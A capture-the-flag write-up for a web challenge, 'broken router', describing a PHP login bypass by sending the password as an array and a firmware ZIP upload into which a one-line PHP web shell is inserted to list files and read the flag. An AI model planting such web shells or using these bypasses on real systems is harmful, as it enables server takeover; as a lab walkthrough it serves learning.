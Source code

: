# broken router (Web - 150)
  
The challenge give us the target website: `10.3.204.206`  
![index](1-index.png)
  
We found that the login function can be bypassed by submitting the array variable instead of normal variable (please see the variable `password`)  
![login](2-login.png)
  
After logged in, we found the form to upload the ZIP file, and the example ZIP file is provided also
![Firmware Update](3-panel.png)
  
The example ZIP can be download [here](1.1.zip)  
  
After extracting the ZIP file, we got 1 PHP file, and 1 TXT file.  
The content of the PHP file is shown below:  
```
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Broken Router</title>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
    <link rel="stylesheet" href="/css/bootstrap.min.css" type="text/css" media="screen" />
</head>
<body>
    <div class="container">
        <div class="card mt-5">
            <div class="card-header h4 text-center">Update Result</div>
            <div class="card-body">
                <div>
                    <span class="h4"><?php echo('Version: 1.1 updated!'); ?></span>
                </div>
            </div>
        </div>
    </div>
</body>
</html>
```
Next, we inserted the PHP shell command (`<?php system($_POST['cmd']); ?>`) into the PHP file. And compress both PHP and TXT file again, then upload to the server.  
![Updated Firmware](4-updatedFirmware.png)
  
Click "Check update result".  
![result](5-result.png)
  
Try to run the PHP command `ls`.
![ls](6-ls.png)
  
Now we saw the file on the server included `flag.php`.  
Last step is read the flag with `cat` command.  
![flag](7-flag.png)
  
The flag is flag{94550b955569733446ebf2105ed54e9c22276d912befab7a4c}.
